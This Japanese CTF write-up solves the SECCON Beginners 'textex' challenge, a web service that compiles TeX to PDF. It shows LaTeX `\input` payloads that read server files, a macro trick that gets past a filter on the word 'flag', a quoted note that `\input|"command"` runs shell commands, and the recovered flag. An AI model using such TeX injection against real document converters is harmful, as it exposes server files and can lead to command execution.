



# [WEB] textex 92pts
texをpdfにするサービスを作りました。
texで攻撃することはできますか？

https://textex.quals.beginners.seccon.jp
# Solution
問題文の通り、texをpdfにするサイト\
\
与えられたソースコードの Dockerfile より flag が書かれているであろうファイルが `/var/www/` 以下にあることがわかる。texからpdfに変換する際にflagファイルを表示させる方法を考える。texの知識が0だったので、`TeX 外部ファイル 表示` とかで検索してみると、それに関するブログを見つけた。
> TeXのコマンドには、\input という別のTeXファイルを読み込むコマンドがありますが、 \input の引数が |"command"（先頭にパイプが1つとダブルクオートで囲われた文字列）のようになっていると、指定したコマンド command が実行されます。

これでいける！と思って問題のサイトに `\input{"requirements.txt"}` を入力して、pdfに変換したら、`requirements.txt` の内容が表示された。
\
同様の方法で`\input{"flag"}`を試すと、エラー表示がされて表示されない。ここで、長時間悩み諦めた。\
実は、入力文字列にflagが含まれている場合はエラー表示が起きるように設定されていた。（問題の初めに気づいてはいたが、inputの存在を知ってから完全に忘れてた悲しみ）
### app.py
```Python
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
```
flagを別の方法で表す必要があるので、マクロ定義を用いてみる。
```latex
\documentclass{article}
\def\lag{lag}
\begin{document}

\input{f\lag}

\end{document}
```
しかし、これも結果はエラー。\
Texについて調べていくと、`_` は特殊文字として扱われるため、そのまま入力することはできないらしい。数式モードでは使用でき、この場合は下付き文字になる。
```latex
\documentclass{article}
\def\lag{lag}
\begin{document}

$\input{f\lag}$

\end{document}
```
すると、flagの内容っぽいのが表示された。\
\
下付き文字をもとに戻すと、`ctf4b{15_73x_pr0n0unc3d_ch0u?}`

難しすぎた


# References
- https://tex2e.github.io/blog/latex/input-external-commands
- https://munibus.hatenablog.com/entry/2018/10/29/070852